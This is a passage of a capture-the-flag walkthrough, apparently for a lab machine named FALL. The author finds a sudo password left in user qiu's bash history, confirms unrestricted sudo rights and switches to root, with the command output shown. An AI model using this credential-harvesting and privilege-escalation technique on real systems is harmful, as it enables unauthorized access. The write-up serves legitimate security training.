 Oh! The `.bash_history` file has no symbolic link to `/dev/null`! Which means **we can read `qiu`'s Bash history!**

```shell
[qiu@FALL ~]$ cat .bash_history 
[...]
echo "{Redacted}" | sudo -S dnf update
[...]
```

In those commands history, this command stands out. This is because the clear-text password is being piped to the `sudo` command! Which means we found `qiu`'s password!

**Now, we can view `qiu`'s Sudo permission:**
```shell
[qiu@FALL ~]$ sudo -l
[sudo] password for qiu: 
Matching Defaults entries for qiu on FALL:
    !visiblepw, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL
    PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION
    LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User qiu may run the following commands on FALL:
    (ALL) ALL
```

Nice! User `qiu` can run any commands as `root`!!

**Hence, we can easily escalate our privilege to `root` via switching user from `qiu` to `root`:**
```shell
[qiu@FALL ~]$ sudo su
[root@FALL qiu]# whoami; hostname; id; ip a
root
FALL
uid=0(root) gid=0(root) groups=0(root)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:0c:29:c8:91:5a brd ff:ff:ff:ff:ff:ff
    inet 10.69.96.73/24 brd 10.69.96.255 scope global dynamic noprefixroute ens33
       valid_lft 971sec preferred_lft 971sec
    inet6 fe80::af86:ce1d:cf2a:e830/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```

I'm `root`! :D
